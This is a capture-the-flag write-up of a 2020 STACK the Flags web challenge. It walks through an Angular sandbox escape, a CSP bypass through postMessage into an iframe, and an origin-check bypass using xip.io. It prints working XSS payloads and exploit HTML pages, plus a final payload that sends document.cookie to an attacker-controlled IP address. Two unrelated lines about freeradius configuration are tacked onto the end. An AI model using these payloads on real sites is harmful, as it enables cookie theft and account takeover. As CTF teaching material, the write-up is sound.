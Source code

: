 ```yaml
---
title: STF <You shall not pass!>
author: Jason Chua (Coldspot)
date: 2020-12-08 00:00:51 +0800
categories: [CTF]
tags: [sandbox, tech, angular, xss]
toc: true
---
```



[STACK the Flags CTF](https://ctf.tech.gov.sg/) is an online, jeopardy style Capture-the-Flag competition organised by the folks in GovTech’s Cyber Security Group (CSG).


## Initial Testing
Accessing the web site at http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/ will lead us to a simple page shown below.
![upload-image](/assets/img/blog/you-shall-not-pass/1.png)

Attempting to broadcast a message will pop up a jQuery-based on-screen-keyboard which can be found at [github](https://github.com/chriscook/on-screen-keyboard) 
![upload-image](/assets/img/blog/you-shall-not-pass/2.png)
![upload-image](/assets/img/blog/you-shall-not-pass/3.png)

Broadcasting a message will display the broadcasted text in the embedded iframe which leads to `/broadcasts`.  
![upload-image](/assets/img/blog/you-shall-not-pass/4.png)

Entering a URL into the text box for  `Add new website to hack!` will result in the server sending a GET request to the specified URL.
![upload-image](/assets/img/blog/you-shall-not-pass/5.png)
![upload-image](/assets/img/blog/you-shall-not-pass/6.png)

`/broadcasts` contains a JavaScript file called `frame.js` which will be critical in developing of the exploit.
![upload-image](/assets/img/blog/you-shall-not-pass/7.png)

Iframes to the website can also be included in a web server on a different domain indicated by the lack of an `X-Frame-Options` header
![upload-image](/assets/img/blog/you-shall-not-pass/8.png)

## Discovering and planning of exploit

Attempting to inject JavaScript `<img/src/onerror=alert()>` in the broadcast field will result in `Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'unsafe-eval' 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.` in the console log.  

The key-points derived from the error is that the `unsafe-eval` in `script-src` directive is set to `self` which only allows the use of `eval()` in the same origin as the target site.

The initial plan of action is to post arbitrary JavaScript on `/broadcasts` page and enter the link of `/broadcasts` in the `Add new website to hack!` form. However, one issue is that the XSS is not stored. As such, having the server attempt a GET request on ‘/broadcasts` page will not execute said JavaScript. 

![upload-image](/assets/img/blog/you-shall-not-pass/9.png)

A solution to the above problem will be having the target server attempt a GET request to a web server that we own. Our web server will then include an iframe to the `/broadcasts` target URL and attempt to run the `postMessage()` function to send our payload to the `/broadcasts` endpoint which has a `receiveMessage()` function.

The payload should consist an iframe which contains a script tag that loads the angular script as well as a completed angular sandbox escape as well as CSP-bypassed code which runs arbitrary JavaScript, which had not been completed at this stage.

![upload-image](/assets/img/blog/you-shall-not-pass/10.png)

After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). 

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.

The adapted payload will have the script construct a string by reading in decimal values and converting it to ASCII from its ordinal value.

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))
```

To test the script locally, download the vulnerable Angular source code from the challenge website and place it in a `javascripts` folder. Next, create an `index.html` page in the root folder
```html
<html>
  <iframe id="xss"></iframe>
</html>

<script>
  setTimeout(function(){
    const frame = document.createElement('iframe')
    const inject = document.getElementById("xss")
    frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`
    document.body.innerHTML = frame.outerHTML.replace(" ", "/")

    inject.src = "http://localhost"
  },
  1000)
</script>
```
The result should be something like this:
![upload-image](/assets/img/blog/you-shall-not-pass/11.png)

Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser

Python 3+
```bash
python -m http.server 80
```
Python 2+
```
python -m SimpleHTTPServer 80
```

The following picture should be the outcome:
![upload-image](/assets/img/blog/you-shall-not-pass/12.png)

To make sure the exploit works for the server, add an `onload` function to inject to run `postMessage(frame.outerHTML)` and change inject.src to ` http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts`. 

```html
<html>
	<iframe id="xss"></iframe>
</html>

<script>
	
	const frame = document.createElement('iframe')
	const inject = document.getElementById("xss")
	frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`

	inject.onload = _ => {
		inject.contentWindow.postMessage(frame.outerHTML, "*")
	}

	inject.src = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts"

</script>
```

Hosting it locally and accessing it, you will realize that the page still did not work. No JavaScript alert ☹
![upload-image](/assets/img/blog/you-shall-not-pass/13.png)

There are 2 main reasons why this script did not work. First, the payload that was sent to the server contains blacklisted characters, and second, the URL did not pass the origin check on the server.

## Fixing of exploit

To fix the first issue of our payload having blacklisted character(s), we must first identify where did the blacklisted character(s) appear. We can first check the payload that was sent with the `postMessage()` function, which was `frame.outerHTML`.

![upload-image](/assets/img/blog/you-shall-not-pass/14.png)

As we can see, the payload contained a <space> character after iframe which was blocked in `/broadcasts/frame.js`. To circumvent this, I used a `.replace(“ “, “/”)` for the outerHTML.

The second problem lies with the origin check. Recall that in `/broadcasts/frame.js`, there is a check for the `event.origin`

![upload-image](/assets/img/blog/you-shall-not-pass/15.png)

This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` and will return if the check fails. As such, we need a DNS to point to our server, starting with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`. (xip)[http://xip.io/] provide a free domain name that points to any IP address. The domain name we will use is ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io`. 

## Finishing up

Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to ` a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.

Entering ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename. 

![upload-image](/assets/img/blog/you-shall-not-pass/16.png)

## Thoughts

On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`. 

The total cost of the server can be seen in the picture below:
![upload-image](/assets/img/blog/you-shall-not-pass/17.png)


More info 
>> Main configuration file is called radiusd.conf in the root folder of the freeradius file 
>> Listening, Proxy, Authentication configuration are in the sites-available/default file
